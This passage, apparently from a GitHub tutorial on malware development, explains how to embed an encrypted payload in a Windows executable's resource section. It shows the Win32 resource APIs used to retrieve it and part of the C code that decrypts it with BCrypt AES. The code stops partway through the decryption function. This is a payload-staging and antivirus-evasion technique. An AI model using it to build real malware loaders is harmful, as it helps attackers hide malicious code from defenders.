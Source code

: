 8. When exiting the Resource View, the "resource.h" header file should be visible and named according to the .rc file from Step 2. This file contains a define statement that refers to the payload's ID in the resource section (IDR_RCDATA1). This is important in order to be able to retrieve the payload from the resource section later.
![image](https://github.com/user-attachments/assets/50923c95-bf16-45d8-85e7-098734d7ba88)

# Code Integration
Four APIs are used: <br>
- [FindResourceW](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-findresourcew) - Get the location of the specified data stored in the resource section of a special ID passed in (this is defined in the header file)
- [LoadResource](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadresource) - Retrieves a HGLOBAL handle of the resource data. This handle can be used to obtain the base address of the specified resource in memory.
- [LockResource](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-lockresource) -  Obtain a pointer to the specified data in the resource section from its handle.
- [SizeofResource](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-sizeofresource) - Get the size of the specified data in the resource section.

Below is a code snippet of decrypting the encrypted payload from the resource section:
```C
#include <Windows.h>
#include <winternl.h>
#include <stdio.h>
#include "resource.h"
#pragma comment(lib, "Bcrypt.lib")

// Define keysize and NTSTATUS codes for AES encryption function
#define NT_SUCCESS(status) (((NTSTATUS)(status)) >= 0)
#define KEYSIZE 32
#define IVSIZE 16

// Intialize AES struct
typedef struct _AES {
    PBYTE pPlainText;      // base address of the plain text data
    DWORD dwPlainSize;     // size of the plain text data
    PBYTE pCipherText;     // base address of the encrypted data
    DWORD dwCipherSize;    // size of it
    PBYTE pKey;            // the 32 byte key
    PBYTE pIv;             // the 16 byte iv
} AES, * PAES;

// Function to load AES encryption
BOOL InstallAesDecryption(PAES pAes) {
    if (!pAes || !pAes->pCipherText || !pAes->pKey || !pAes->pIv || pAes->dwCipherSize == 0) {
        printf("[!] Invalid AES parameters\n");
        return FALSE;
    }

    BOOL bSTATE = TRUE;
    BCRYPT_ALG_HANDLE hAlgorithm = NULL;
    BCRYPT_KEY_HANDLE hKeyHandle = NULL;
    ULONG cbResult = 0;
    DWORD dwBlockSize = 0;
    DWORD cbKeyObject = 0;
    PBYTE pbKeyObject = NULL;
    PBYTE pbPlainText = NULL;
    DWORD cbPlainText = 0;
    NTSTATUS STATUS = 0;

    STATUS = BCryptOpenAlgorithmProvider(&hAlgorithm, BCRYPT_AES_ALGORITHM, NULL, 0);
    if (!NT_SUCCESS(STATUS)) {
```